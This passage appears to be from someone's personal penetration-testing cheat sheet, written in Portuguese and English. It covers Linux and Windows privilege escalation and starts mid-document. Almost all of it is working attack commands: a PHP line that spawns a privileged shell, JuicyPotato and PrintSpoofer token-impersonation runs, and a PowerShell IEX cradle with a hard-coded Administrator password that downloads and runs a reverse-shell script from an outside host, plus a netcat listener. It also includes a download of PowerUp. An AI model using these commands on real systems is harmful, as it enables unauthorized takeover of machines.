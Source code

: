     /usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"

# Exploitation

## Windows 

### Potatoes

    whoami /priv

    SeImpersonate
    
    PrintSpoofer32.exe -i -c powershell
    
    JuicyPotato.exe -t * -p shell.bat -l 4444
    
    ./jp.exe -t * -p  c:\temp\s.bat

Esse juicyPotato que funcionou é o que se encontra neste link:

https://github.com/antonioCoco/JuicyPotatoNG/releases/download/v1.1/JuicyPotatoNG.zip

Exemplo:

![qownnotes-media-izYysB](../../media/qownnotes-media-izYysB.png)


### Com credencial

    $password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
    Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5:8000/shell2.ps1')" -Credential $cred

Para obter essa shell, claro temos que subir os handlers
    
    python -m http.server
    nc -nlvp 8082

### PowerUp

Normalmente eu tenho problemas para importar o module de powershell powerup, então eu uso a seguinte alternativa:

    (new-object net.webclient).downloadfile('http://<hostname>/PowerUp.ps1', 'c:\temp\pu.ps1')
    . ./pu.ps1
    invoke-allchecks

caso contrário:

    import-module PowerUp.ps1

    invoke-allchecks
     


#### Weak service permissions
